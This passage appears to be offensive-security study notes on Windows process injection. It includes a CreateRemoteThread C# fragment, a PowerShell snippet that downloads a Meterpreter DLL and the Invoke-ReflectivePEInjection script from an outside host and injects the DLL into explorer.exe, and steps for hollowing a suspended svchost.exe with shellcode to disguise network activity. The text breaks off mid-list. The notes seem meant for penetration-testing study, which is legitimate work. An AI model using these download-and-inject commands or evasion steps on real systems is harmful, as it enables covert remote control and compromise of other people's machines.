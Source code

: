 ```csharp
            IntPtr hThread = CreateRemoteThread(hProcess, IntPtr.Zero, 0, loadLib, addr, 0, IntPtr.Zero);
        }
    }
}
```

## Reflective DLL Injection in PowerShell

Reflective DLL injection parses the relevant fields of the DLL's Portable Executable (`PE`) file format and maps the contents into memory.

The PowerShell reflective DLL injection script `Invoke-ReflectivePEInjection` performs reflection to avoid writing assemblies to disk, after which it parses the desired PE file.

It has 2 separate modes:

1. Reflectively load a `DLL` or `EXE` into the same process

2. Load a DLL into a remote process.

Inject an unmanaged Meterpreter DLL into a process

```pwsh
$bytes = (New-Object System.Net.WebClient).DownloadData('http://192.168.45.179/met.dll')

$procid = (Get-Process -Name explorer).Id

# Import-Module C:\Tools\Invoke-ReflectivePEInjection.ps1
IEX((New-Object System.Net.WebClient).DownloadString('http://192.168.45.179/Invoke-ReflectivePEInjection.ps1'))

Invoke-ReflectivePEInjection -PEBytes $bytes -ProcId $procid
```

## Process Hollowing in C#

We are generating network activity from processes that generally do not generate it => migrate to `svchost.exe`.

All `svchost.exe` processes run by default at `SYSTEM` integrity level => We cannot inject into them from a lower integrity level.

If we launch `svchost.exe` and attempt to inject into it, the process will immediately terminate.

=> Launch a `svchost.exe` process and modify it before it actually starts executing.

1. Supply the `CREATE_SUSPENDED` flag (`0x4`) when calling `CreateProcess`, the execution of the thread is halted just before it runs the EXE's first instruction.

2. Locate the `EntryPoint` of the executable and overwrite its in-memory content with our staged shellcode and let it continue to execute.

3. To read from a remote process, use the `ReadProcessMemory` API, which is a counterpart to `WriteProcessMemory`.
